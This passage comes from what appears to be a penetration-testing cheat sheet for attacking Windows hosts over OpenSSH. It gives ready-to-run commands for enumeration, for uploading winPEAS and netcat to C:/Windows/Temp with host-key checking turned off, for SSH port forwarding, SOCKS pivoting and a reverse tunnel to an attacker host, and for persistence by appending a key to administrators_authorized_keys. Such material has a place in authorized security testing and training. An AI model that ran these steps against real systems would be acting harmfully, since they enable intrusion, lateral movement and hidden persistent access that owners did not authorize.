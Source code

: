 PowerShell equivalents:
```powershell
whoami
Get-ComputerInfo | Select-Object OsName, OsVersion, CsName
Get-NetIPConfiguration
Get-LocalUser
Get-LocalGroupMember -Group Administrators
```

6) File transfer to Windows (OpenSSH server)
```bash
# Upload a tool to Windows Temp
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null ./winPEASx64.exe user@$TARGET:C:/Windows/Temp/winPEASx64.exe

# SFTP interactive
sftp user@$TARGET
sftp> put ./nc64.exe C:/Windows/Temp/nc64.exe
sftp> ls C:/Windows/Temp/
```

7) Tunneling and pivoting
```bash
# Local port forward (access remote RDP locally as 127.0.0.1:3389)
ssh -N -L 3389:127.0.0.1:3389 user@$TARGET

# Local forward to an internal service via the SSH host
ssh -N -L 8080:INTERNAL-HOST:80 user@$TARGET

# Dynamic SOCKS proxy on 1080 for proxychains
ssh -N -D 1080 user@$TARGET
# Then configure /etc/proxychains.conf to use socks5 127.0.0.1 1080
# and run: proxychains nmap -sT -Pn INTERNAL-HOST

# Reverse tunnel (if you control the target to connect back to you)
ssh -N -R 8080:127.0.0.1:80 attacker@YOUR_PUBLIC_IP
```

8) Persistence with SSH keys (requires proper privileges)

Generate a key pair on attacker:
```bash
ssh-keygen -t ed25519 -f ~/.ssh/winkey -N ""
```

Add public key on the Windows host:

For an admin account (OpenSSH for Windows special file):
```powershell
# Run on the target with admin rights
New-Item -ItemType Directory -Path 'C:\ProgramData\ssh' -Force | Out-Null
$pub = Get-Content -Raw -Path '\\10.10.10.1\share\winkey.pub'  # or echo the key literal
$path = 'C:\ProgramData\ssh\administrators_authorized_keys'
$pub | Out-File -FilePath $path -Encoding ascii -Append

# Fix permissions (required for OpenSSH on Windows)
icacls $path /inheritance:r
icacls $path /grant "Administrators:F"
icacls $path /grant "SYSTEM:F"
```
